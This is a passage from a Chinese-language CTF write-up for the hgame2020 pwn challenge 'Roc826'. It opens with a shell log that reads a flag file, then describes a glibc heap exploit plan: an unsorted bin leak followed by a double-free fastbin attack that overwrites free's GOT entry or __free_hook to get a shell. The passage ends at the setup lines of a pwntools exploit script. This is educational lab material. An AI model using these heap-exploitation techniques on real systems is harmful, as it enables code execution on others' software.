   ```
  -r--r--r--   1 1000 1000 0 Feb  1 09:44 status
  -r--------   1 1000 1000 0 Feb  1 09:44 syscall
  dr-xr-xr-x   3 1000 1000 0 Feb  1 09:44 task
  -r--r--r--   1 1000 1000 0 Feb  1 09:44 timers
  -rw-rw-rw-   1 1000 1000 0 Feb  1 09:44 timerslack_ns
  -rw-r--r--   1 1000 1000 0 Feb  1 09:44 uid_map
  -r--r--r--   1 1000 1000 0 Feb  1 09:44 wchan
  where are you?
  /tmp/0xb3f14a49
  $0
  exec >&0
  cat /flag
  hgame{You_4re_So_C1EV3R}
  ```

  

## Roc826

 - 题目描述：不好好学C的话是很容易随手写出PWN题的
 - 题目地址：[Roc826](https://cdn.jsdelivr.net/gh/TaQini/ctf@master/hgame2020/pwn/week2_2/Roc826)
 - 考察点：`double free`、`unsorted bin leak`
 - 难度：入门
 - 分值：300
 - 完成人数：35

这题是堆的入门级别的题目，然鹅我并不会做堆的题，所以比赛时没做，后来照着官方wp赶紧学习一波

### 0x0 背景姿势

- glibc (<2.27)堆分配的策略：即 first-fit。在分配内存时,malloc 会先到 unsorted bin(或者fastbins) 中查找适合的被 free 的 chunk,如果没有,就会把 unsorted bin 中的所有 chunk 分别放入到所属的 bins 中,然后再去这些 bins 里去找合适的 chunk。可以看到第三次 malloc 的地址和第一次相同,即 malloc 找到了第一次 free 掉的chunk,并把它重新分配。
- fast chunk表示正在使用的长度在`32-160`(32位系统是`16-80`)的堆块，而fastbin表示长度在`32-180`范围内的已经释放的堆块

### 0x1 漏洞利用

- `unsorted bin leak` ：泄漏`main_arena`地址（即`__malloc_hook-0x68`）

- `double free`：`fastbin attack`覆写`free`的`got`表为`system`地址，或者改`free_hook`为`one_gadget`都可以`getshell`

### 0x2 exp
  ```python
#!/usr/bin/python
#coding=utf-8
#__author__:TaQini

from pwn import *

local_file  = './Roc826'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = '../libc-2.23.so'

is_local = False
is_remote = False

if len(sys.argv) == 1:
    is_local = True
    p = process(local_file)
    libc = ELF(local_libc)
elif len(sys.argv) > 1:
    is_remote = True
    if len(sys.argv) == 3:
        host = sys.argv[1]
        port = sys.argv[2]
  ```